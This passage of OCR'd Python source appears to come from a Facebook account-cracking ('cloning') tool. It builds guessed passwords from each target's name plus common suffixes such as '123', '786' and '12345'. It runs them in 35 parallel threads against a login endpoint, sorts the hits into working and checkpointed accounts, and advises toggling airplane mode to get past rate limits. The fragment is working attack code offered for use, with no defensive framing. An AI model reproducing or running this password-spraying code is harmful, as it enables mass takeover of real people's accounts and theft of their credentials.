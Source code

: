 							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']

						elif len(xz) == 3:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']

						elif len(xz) == 4:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']

						else:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

						pass

			os.remove(self.apk)

			hasil(ok,cp)

		elif yan in ('3', '03'):

			os.system("clear")

			print(banner)

			time.sleep(1)

			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')

			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))

			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')

			print(50*"\033[1;97m_")

			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')

			print(50*"\033[1;97m_")

			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]

						elif len(xz) == 2:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]

						elif len(xz) == 3:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
